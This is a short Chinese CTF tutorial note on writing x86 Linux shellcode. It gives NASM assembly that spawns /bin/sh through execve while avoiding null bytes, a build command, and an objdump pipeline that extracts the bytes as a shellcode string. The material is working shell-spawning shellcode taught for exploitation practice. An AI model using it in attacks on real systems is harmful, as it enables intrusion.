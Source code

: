 ```yaml
---
title: shellcode编写
categories: 
	- ctf
	- shellcode
---
```

# 编写汇编代码

```nasm
section .text
    global _start

_start:
    xor eax,eax
    push eax
    push 0x68732f6e
    push 0x69622f2f
    mov ebx,esp
    mov al,0xb
    xor ecx,ecx
    xor edx,edx
    int 80h
```

注意：由于转换为shellcode如果出现00，则有可能被识别为终止符，所以需要避免出现。故将mov eax,0xb修改为mov al,0xb

# 编译汇编代码

```shell
nasm -f elf asm/exec.asm && ld -m elf_i386 -s -o exec asm/exec.o
```

# 导出shellcode

```shell
objdump -d ./exec|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
```
